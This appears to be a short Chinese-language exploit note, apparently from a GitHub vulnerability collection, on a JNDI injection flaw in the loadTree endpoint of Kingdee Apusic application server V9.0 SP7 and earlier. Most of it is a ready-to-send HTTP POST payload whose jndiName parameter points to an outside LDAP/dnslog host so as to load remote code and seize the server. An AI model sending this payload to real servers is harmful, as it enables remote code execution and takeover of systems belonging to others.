 ### **漏洞描述：**

金蝶Apusic应用服务器 loadTree 接口存在jndi注入，攻击者可通过jndi注入远程加载代码获取服务器权限。

### **影响版本：**

V9.0 SP7及以下版本

### **Payload：**

```jsx
POST /appmonitor/protect/jndi/loadTree HTTP/1.1
Host:host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Cookie: EASSESSIONID=141476053; NAPRoutID=141476053; sl-session=V1nreK33g2WZuswc79lAOQ==
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
SL-CE-SUID: 73

jndiName=ldap://***.dnslog.pw
```

---
